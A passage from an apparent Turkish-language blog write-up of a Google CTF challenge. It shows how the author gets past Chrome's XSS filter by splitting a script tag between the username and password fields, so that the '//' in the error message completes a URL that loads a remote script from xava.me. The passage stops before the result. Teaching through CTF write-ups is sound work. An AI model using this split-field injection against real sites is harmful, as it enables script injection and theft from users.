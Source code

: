 ![](/assets/google-ctf-macerasi-2/8.webp)

Ve, anında **Chrome**'a yakalandık. :(

![](/assets/google-ctf-macerasi-2/9.webp)

Demek ki **XSS** açığı varmış. Peki Chrome'un bu açığı engellememesini nasıl sağlayabilirim?

Direk olarak _script_ çalıştırmak yerine bir kullanıcı adı/şifre denediğimde, sayfanın bana verdiği sonuç:
```
Wrong credentials: username//password
```

Burada dikkatimi çeken şey, iki adet bölü işareti bulunması. Bu işareti farklı bir siteden script çağırırken kullanabiliriz.
```
Kullanıcı adı: <script src="http:
Şifre: xava.me/hek.js"></script>
```

Dönen Mesaj:
